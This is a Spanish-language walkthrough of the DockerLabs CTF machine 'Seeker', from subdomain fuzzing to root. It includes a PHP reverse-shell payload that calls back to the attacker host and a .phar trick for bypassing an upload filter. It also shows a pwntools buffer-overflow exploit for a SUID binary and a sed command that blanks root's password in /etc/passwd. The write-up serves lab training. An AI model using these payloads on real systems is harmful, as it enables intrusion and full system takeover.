

Máquina **Seeker** de [DockerLabs](https://dockerlabs.es)

Autor: [maciiii___](https://github.com/maciferna)

Dificultad: medio



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -p- -sSVC --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
```

```css
# Nmap 7.95 scan initiated Sun Jan 19 23:30:18 2025 as: nmap -p- -sSVC --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2025-01-19 23:30:18 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 19 23:30:26 2025 -- 1 IP address (1 host up) scanned in 8.44 seconds
```

Como vemos, solo tenemos 1 puerto abierto que es el 80 y en el funciona apache en su versión 2.4.62.

#### Puerto 80

Al entrar en la web, podemos notar que es la página default de apache, solo que en algunas partes en vez de decir `/var/www/html` como dice normalmente, dice `/var/www/5eEk3r` por lo que podemos intuir que en el servidor hay un dominio. En  dockerlabs generalmente terminan en ".dl", por lo que lo agregaremos en el archivo `/etc/hosts` de la siguiente manera:

```css
<IP>	5eEk3r.dl
```

#### Subdomain fuzz

Ahora que sabemos que hay un dominio y como en esa web no hay nada, usaremos `ffuf` para buscar algún subdominio:

```css
ffuf -u "http://5eEk3r.dl/" -w directory-list-2.3-medium.txt -H "Host: FUZZ.5eEk3r.dl" -fw 3427
```

```css

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://5eEk3r.dl/
 :: Wordlist         : FUZZ: directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.5eEk3r.dl
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 3427
________________________________________________

crosswords              [Status: 200, Size: 934, Words: 180, Lines: 102, Duration: 2ms]
:: Progress: [220559/220559] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

como vemos en el resultado, tenemos el subdominio `crosswords`, el cual también agregaremos en el archivo `/etc/hosts`:

```css
<IP>      5eEk3r.dl crosswords.5eEk3r.dl
```

### Crosswords

En este subdominio encontramos cosas interesantes, ya que es una web la cual parece pasar un texto a ROT14, además que en el código fuente dice este mensaje:

```html
<! -- Al que contratamos para crear la web nos habló de algo llamado 'xss'... que será? -->
```

yo no se en que parte estará ese xss...

Luego de buscar un poco, no encuentro nada útil en esa web, por lo que vuelvo a hacer fuzzing de subdominios pero en ese subdominio:

```css
ffuf -u "http://5eEk3r.dl/" -w directory-list-2.3-medium.txt -H "Host: FUZZ.crosswords.5eEk3r.dl" -fw 3427
```

```css

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://5eEk3r.dl/
 :: Wordlist         : FUZZ: directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.crosswords.5eEk3r.dl
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 3427
________________________________________________

admin                   [Status: 200, Size: 2906, Words: 1318, Lines: 104, Duration: 2ms]
:: Progress: [220559/220559] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

nuevamente encontramos un subdominio pero llamado "admin", el cual volveremos a poner en el archivo `/etc/hosts` de la siguiente manera:

```css
<IP>      5eEk3r.dl crosswords.5eEk3r.dl admin.crosswords.5eEk3r.dl
```

Al entrar en el, podemos ver una web la cual permite administrar los archivos de la web anterior, y también nos permite subir archivos, por lo que ya podemos lograr entrar en la máquina.

# Intrusión

Teniendo una subida de archivos, podemos crear un archivo php el cual nos envíe una reverse shell. Para hacerlo creamos un archivo llamado `shell.php` el cual contenga lo siguiente:

```php
<?php

system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");

?>
```

Una vez creado, intentamos subirlo pero nos dice lo siguiente:

```css
No se permiten archivos PHP, solo HTML.
```

podemos intentar bypasear esta restricción cambiando la extensión del archivo por `phar`. Al cambiarlo e intentar subirlo, nos aparece el siguiente mensaje:

```css
Archivo subido con éxito: shell.phar
```

ahora escuchamos por el puerto 443 con netcat (`sudo nc -lvnp 443`) y entramos en `http://crosswords.5eek3r.dl/shell.phar` para entrar en la máquina.

# Escalada De Privilegios

### www-data

Si ejecutamos `sudo -l`, veremos que podemos ejecutar el binario `busybox` como el usuario "astu", por lo que podriamos escalar ejecutando lo siguiente:

```css
sudo -u astu busybox sh
```

### Astu

Al ejecutar `sudo -l` nos pide contraseña, pero en la home de el usuario astu podremos ver una carpeta la cual tiene un binario con el bit SUID activado. Viendo esto probamos a poner muchos caracteres y veremos que es vulnerable a `buffer overflow`. Sabiendo esto nos lo pasamos a nuestra máquina y comenzamos a depurarlo con `gdb`.

#### Buffer Overflow

Creamos un pattern con `pattern_create` de metasploit y lo mandamos por el gdb con el binario y vemos lo siguiente:

```css
► 0x4013d8 <main+58>    ret                                <0x6341356341346341>
```

ahora pasamos `0x6341356341346341` a la herramienta `pattern_offset` de metasploit y nos dice lo siguiente:

```css
❯ /opt/metasploit/tools/exploit/pattern_offset.rb -q 0x6341356341346341
[*] Exact match at offset 72
❯ 
```

Por lo que ya tenemos un offset y podemos ir armando el exploit:

```python
#!/usr/bin/env python3

from pwn import *


def exploit():
    binario = '/home/astu/secure/bs64'
    i = process(binario)

    buffer = b"\x90"*72
    RIP = b"B"*6

    payload = buffer + RIP


    i.sendline(payload)
    i.interactive()

if __name__ == '__main__':
    exploit()

```

Ahora si revisamos con `checksec` el binario, veremos que tiene NX activado como protección, eso significa que el stack no es ejecutable, por lo que no nos sirve meter un shellcode. También si revisamos las funciónes con gdb (`info functions`), veremos una llamada "fire" la cual establece el uid en 0 y además ejecuta un sh, ya que con `strings` vemos lo siguiente:

```css
Ejecutando /bin/sh
```

por lo que podriamos intentar apuntar a esa función para poder escalar a root.

```css
pwndbg> disassemble fire
Dump of assembler code for function fire:
   0x000000000040136a <+0>:	push   rbp
   0x000000000040136b <+1>:	mov    rbp,rsp
   0x000000000040136e <+4>:	lea    rax,[rip+0xcfb]        # 0x402070
   0x0000000000401375 <+11>:	mov    rdi,rax
   0x0000000000401378 <+14>:	mov    eax,0x0
   0x000000000040137d <+19>:	call   0x401050 <printf@plt>
   0x0000000000401382 <+24>:	mov    edi,0x0
   0x0000000000401387 <+29>:	call   0x401070 <setuid@plt>
   0x000000000040138c <+34>:	lea    rax,[rip+0xcf0]        # 0x402083
   0x0000000000401393 <+41>:	mov    rdi,rax
   0x0000000000401396 <+44>:	call   0x401040 <system@plt>
   0x000000000040139b <+49>:	nop
   0x000000000040139c <+50>:	pop    rbp
   0x000000000040139d <+51>:	ret
End of assembler dump.
pwndbg> 
```

en este caso tendremos que utilizar la dirección `0x40136b`.

finalmente, el exploit quedaría asi:

```python
#!/usr/bin/env python3

from pwn import *


def exploit():
    binario = '/home/astu/secure/bs64'
    i = process(binario)

    buffer = b"\x90"*72
    RIP = p64(0x40136b)

    payload = buffer + RIP


    i.sendline(payload)
    i.interactive()

if __name__ == '__main__':
    exploit()
```

lo pasamos a la máquina y al ejecutarlo tendreoms una sh casi como root, ya que todavía no tenemos los permisos totales de root, para arreglar esto, simplemente ejecutamos lo siguiente:

```css
sed 's/root:x:/root::/g' /etc/passwd -i && su
```

y ya seremos root al 100%.

### Root


Gracias por leer ;)